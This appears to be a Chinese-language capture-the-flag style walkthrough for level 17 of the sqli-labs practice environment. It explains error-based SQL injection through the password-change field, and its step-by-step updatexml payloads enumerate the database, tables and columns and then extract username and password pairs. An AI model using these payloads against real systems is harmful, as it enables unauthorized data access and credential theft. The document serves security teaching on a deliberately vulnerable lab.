

# Less - 17

---

# 通关教程

---

## 1、判断注入点

---

17关输入用户名的位置是没有注入点的，所以我们在更改密码的位置判断注入点

```html
uname=admin&passwd=admin'&submit=Submit #有完整错误回显
```

​​

所以这里我们使用报错注入攻击

---

## 2、查看当前数据库

---

```html
uname=admin&passwd=a' or updatexml(1,concat(0x7e,(database()),0x7e),1)#&submit=Submit
```

​​

---

## 3、查看security库下的第一张表

---

```html
uname=admin&passwd=a' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)#&submit=Submit
```

​​

---

## 4、查看users表下的第一个字段

---

```html
uname=admin&passwd=a' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)#&submit=Submit
```

​​

---

## 5、查看username和password字段的第一个值

---

```html
uname=admin&passwd=a' OR (updatexml(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)),1))#&submit=Submit
```

​​

这里我们无法直接从 users 表拿数据，我们可以先用一个表暂存从 users 表中取出所有数据的查询，然后再从这个暂存的表中取出数据。构造出的 payload 如下，思路就是利用一个查询从另一个查询中取出数据，以此绕过表的限制。
